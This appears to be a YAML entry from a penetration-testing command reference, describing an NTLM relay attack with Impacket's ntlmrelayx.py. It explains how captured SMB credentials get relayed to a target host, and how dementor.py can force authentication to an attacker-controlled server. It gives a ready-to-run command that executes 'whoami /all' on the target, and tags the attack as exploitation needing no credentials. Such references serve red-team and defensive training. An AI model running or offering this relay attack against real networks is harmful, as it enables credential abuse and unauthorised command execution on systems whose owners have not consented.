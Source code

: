 ```yaml
---
title: |
  Perform NTLM Relay Attack
description: |
  Impacket's ntlmrelayx.py performs NTLM Relay Attacks, creating an SMB and HTTP server and relaying credentials to various different protocols (SMB, HTTP, LDAP, etc.).

  The below command creates an SMB relay server that targets the IP 10.10.10.1, meaning any credentials that the SMB server recieves, gets relayed to that IP to attempt to authenticate and execute 'whoami /all'. In order for the SMB server to recieve credentials to relay, dementor.py can be used to trigger a forced authentication from the IP it's targeting to an attacker controlled SMB server.

  Command Reference:

  	Target IP: 10.10.10.1

command: |
  python3 ntlmrelayx.py -smb2support -t smb://10.10.10.1 -c 'whoami /all' -debug
items:
  - No_Creds
services:
  - NTLM
OS:
  - Linux
  - Windows
attack_types:
  - Exploitation
references:
  - https://github.com/SecureAuthCorp/impacket/blob/master/examples/ntlmrelayx.py
  - https://www.praetorian.com/blog/active-directory-computer-account-smb-relaying-attack
---
```

